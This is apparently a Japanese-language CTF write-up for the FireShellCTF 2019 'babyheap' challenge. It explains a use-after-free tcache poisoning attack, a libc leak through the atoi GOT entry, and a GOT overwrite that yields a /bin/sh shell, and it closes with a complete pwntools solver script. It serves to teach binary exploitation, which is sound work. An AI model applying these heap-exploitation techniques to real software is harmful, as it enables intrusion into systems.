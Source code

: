 ```yaml
---
title: "babyheap - FireShellCTF 2019"
date: 2022-05-15T18:07:23+09:00
draft: false
---
```


# 方針
Use After Freeで`fd`を書き換えることで、`.bss+0x20`(グローバル変数のアドレス)をtcacheに繋ぐ。
そのときにすべてのグローバル変数を初期化する。
また、`atoi@got`を`system`に向けて、`system("/bin/sh")`を呼び出す。

## Use After Free
freeした領域の`fd`を`.bss+0x20`で書き換える。

（最初にfreeした領域を`0`と表記する）
```none
tcache: 0 -> (.bss+0x20) -> NULL
```

```python
create()
delete()
edit(p64(e.bss()+0x20)) # 0x6020a0
```

## なぜ`.bss+0x20`のアドレスを繋ぐのか
各種フラグや、mallocして返ってくる領域が`.bss`に置かれています。
したがって、各種フラグの再初期化や、
返ってくる領域に任意のアドレスを書き込みやすいからです。

### .bss sectionのアドレス
```none
gef➤  xfiles
Start              End                Name                  File
0x00000000003ff270 0x00000000003ff450 .dynamic              /ctf/yu1hpa/019/FireShell/babyheap/babyheap
:                    :                    :
0x0000000000602080 0x00000000006020d0 .bss                  /ctf/yu1hpa/2019/FireShell/babyheap/babyheap
```

よって、bssセクションは`0x602080`から始まる。

### 各種フラグの初期化とlibc leakの旅
`create` -> `edit` -> `show` -> `delete`をした時です。
最後に`delete`をしていることと、隠しコマンド`fill`は使ってないので、フラグが立っていません。

（デコンパイラを使って、各アドレスがどのフラグかを確認できます。）
```none
0x6020a0:       0x0000000000000000      0x0000000000000001
0x6020b0:       0x0000000000000001      0x0000000000000001
0x6020c0:       0x0000000000000000      0x0000000000603260
```
```none
0x6020a0: create
0x6020a8: edit
0x6020b0: show
0x6020b8: delete
0x6020c0: fill
0x6020c8: mallocしたときに返ってくる領域
```

あとは`fill`で`.bss+0x20`に書き込み、`show`することで、
libc leakすることができます。

```python
pld = b""
pld += p64(0) # create
pld += p64(0) # edit
pld += p64(0) # show
pld += p64(0) # delete
pld += p64(0) # fill
pld += p64(e.got["atoi"])
fill(pld)
show()
io.recvuntil("Content: ")
libc.address = u64(io.recvline()[:-1].ljust(8, b"\x00")) - libc.sym["atoi"]
```

## GOT Overwrite
`atoi()`が呼び出されたときに、`system()`が呼び出されるようにします。
```none
*atoi@got = system
```

`atoi()`はコマンドの選択で使われているので、
そこで`/bin/sh`という文字列を渡すことで`system("/bin/sh")`が呼び出されます。

# [Solver](https://github.com/yu1hpa/ctf-writeup/blob/master/2019/FireShellCTF/babyheap/solve.py)

```python
from pwn import *

file = "./babyheap"
e = ELF(file)
libc = ELF("./libc.so.6")
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process(file)

def create():
    io.sendlineafter("> ", "1")

def edit(content: bytes):
    io.sendlineafter("> ", "2")
    io.sendlineafter("Content? ", content)

def show():
    io.sendlineafter("> ", "3")

def delete():
    io.sendlineafter("> ", "4")

def fill(content: bytes):
    io.sendlineafter("> ", "1337")
    io.sendlineafter("Fill ", content)

create()
delete()
edit(p64(e.bss()+0x20)) # 0x6020a0
create()

pld = b""
pld += p64(0) # create
pld += p64(0) # edit
pld += p64(0) # show
pld += p64(0) # delete
pld += p64(0) # fill
pld += p64(e.got["atoi"])
fill(pld)
show()
io.recvuntil("Content: ")
libc.address = u64(io.recvline()[:-1].ljust(8, b"\x00")) - libc.sym["atoi"]
print(f'libc base: 0x{libc.address:x}')

edit(p64(libc.sym["system"]))
io.sendlineafter("> ", "/bin/sh\x00")

io.interactive()
```
